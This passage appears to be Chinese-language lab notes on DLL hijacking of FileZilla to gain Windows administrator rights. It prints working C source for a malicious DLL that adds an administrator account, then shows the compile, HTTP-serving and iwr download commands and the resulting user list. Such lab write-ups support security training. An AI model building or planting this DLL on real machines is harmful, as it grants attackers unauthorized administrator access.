 ##### 2.3 Malicious code 撰寫與注入
加入 include statement 及 system function ，方法與上一節相同，加入 administrator user\
TextShaping.cpp:
```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
編譯 TextShaping.cpp
```
┌──(chw㉿CHW)-[~]
└─$ sudo apt update
sudo apt install mingw-w64
...
┌──(chw㉿CHW)-[~]
└─$ vi TextShaping.cpp 
┌──(chw㉿CHW)-[~]
└─$ x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
┌──(chw㉿CHW)-[~]
└─$ python3 -m http.server 80                                         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Windows 透過 iwr 接收 TextShaping.dll
```
PS C:\Users\steve> iwr -uri http://192.168.45.188/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```

steve 是以 normal user 執行 FileZilla，則惡意 DLL 也只會以 normal user 權限運行，無法新增管理員帳戶。需要等待更高權限的 user 運行該應用程式並觸發惡意 DLL 的載入。

##### 2.4 驗證執行成果，獲得高權限 User 
```
PS C:\Users\steve> net user

User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave3                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir